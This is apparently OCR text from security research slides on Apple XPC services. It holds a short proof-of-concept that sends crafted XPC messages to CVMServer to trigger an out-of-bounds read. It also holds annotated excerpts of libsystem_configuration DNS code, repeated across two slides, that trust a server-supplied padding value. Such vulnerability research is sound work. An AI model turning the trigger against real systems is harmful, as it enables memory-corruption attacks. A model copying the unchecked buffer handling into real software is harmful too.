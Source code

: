 Out-of-Bounds Read (CVMServer)
/System/Library/Frameworks/OpenGLES.framework/CVMServer

POC

//construct and send the handshake message
xpc_object_t dict = xpc_dictionary_create(NULL, NULL, 0); xpc_dictionary_set_int64(dict, "message", 1); xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, dict); xpc_dictionary_set_int64(dict, "message", 4); xpc_dictionary_set_string(dict, "framework_name", "OpenCLCPU"); xpc_dictionary_set_string(dict, "bitcode_name", ""); xpc_dictionary_set_string(dict, "plugin_name", ""); reply = xpc_connection_send_message_with_reply_sync(client, dict);

More Memory Errors in libsystem_configuration.dylib

dns_config_t * dns_configuration_copy(){ ... reply = libSC_send_message_with_reply_sync(dnsinfo_client, reqdict);

reply is passed from the "server"

if (reply != NULL) { ... dataRef = xpc_dictionary_get_data(reply, DNSINFO_CONFIGURATION, &dataLen);

...

if (n_padding <= (DNS_CONFIG_BUF_MAX - dataLen)) {

size_t

len;

len = dataLen + n_padding; buf = malloc(len); bcopy((void *)dataRef, buf, dataLen); bzero(&buf[dataLen], n_padding); } }

if (buf != NULL) { /* ALIGN: cast okay since _dns_config_buf_t is int aligned */ config = expand_config((_dns_config_buf_t *)(void *)buf);
}

static dns_config_t * expand_config(_dns_config_buf_t *buf) {
... padding = &buf->attribute[ntohl(buf->n_attribute)]; n_padding = ntohl(buf->n_padding);

More Memory Errors in libsystem_configuration.dylib

dns_config_t * dns_configuration_copy(){ ... reply = libSC_send_message_with_reply_sync(dnsinfo_client, reqdict);

if (reply != NULL) { ... dataRef = xpc_dictionary_get_data(reply, DNSINFO_CONFIGURATION, &dataLen);

...

if (n_padding <= (DNS_CONFIG_BUF_MAX - dataLen)) {

size_t

len;

len = dataLen + n_padding; buf = malloc(len); bcopy((void *)dataRef, buf, dataLen); bzero(&buf[dataLen], n_padding); } }

dataRef is retrieved from reply

if (buf != NULL) { /* ALIGN: cast okay since _dns_config_buf_t is int aligned */ config = expand_config((_dns_config_buf_t *)(void *)buf);
}

